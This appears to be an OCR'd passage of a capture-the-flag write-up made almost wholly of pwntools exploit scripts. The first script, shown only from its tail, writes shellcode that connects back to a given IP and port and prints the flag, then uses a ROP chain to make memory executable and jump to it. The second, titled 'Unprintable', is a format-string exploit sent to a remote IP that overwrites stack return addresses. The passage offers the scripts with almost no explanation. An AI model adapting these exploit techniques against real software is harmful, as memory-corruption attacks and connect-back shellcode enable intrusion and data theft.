 ```python=
	edit(4,p64(addr)+p64(0x8))
	show(5)

def writemem(addr,content):
	edit(4,p64(addr)+p64(len(content)))
	edit(5,content)

context.arch = "amd64"
payload = asm(shellcraft.connect(ip,port))+asm(shellcraft.cat("flag",'rbp'))
for i in range(0,len(payload),0x30):
	writemem(0x602d00+i,payload[i:i+0x30])



writemem(0x602500,"/bin/sh")

payload = flat(0,0,0,
0x400c33,0x400CF3,0x400670,0x400A64,
0x400C2A,0,1,0x602040,10,0x602040-9,0,0x400C10,0,
0,1,0x602040,0x7,0x1000,0x602000,0x400C10,0,
0,1,0x602040,0x7,0x1000,0x602000,0x400c33,0x400CF3,0x400670,0x400A64,
0x602d00
)
for i in range(0,len(payload),0x30):
	writemem(0x602200+i,payload[i:i+0x30])


writemem(0x602058,p64(0x400C32)[:-1])
r.sendafter(">> ",p64(0x400c2d)+p64(0x602200))
r.recvrepeat(1)
r.send("\x5e"*10)


r.interactive()



```


### Unprintable



exp:

```python=
from pwn import *

#r = process(["./unprintable"],env={"LD_PRELOAD":"./libc.so.6"})
r = remote("45.32.120.212", 9999)
r.recvuntil(":")
stack = int(r.recvline(),16)-0x120
print hex(stack)
p = stack&0xff
p += 8

r.send("%696c%26$ln".ljust(0x30,"\x00")+p64(0x4007a3))
r.recvrepeat(1)

r.send("%{}c%18$hhn%{}c%23$hn\x00".format(p,0x7a3-p))
r.recvrepeat(1)
r.send("%{}c%23$hn%{}c%13$hn\x00".format(0x7a3,0x1060-0x7a3))
r.recvrepeat(1)

```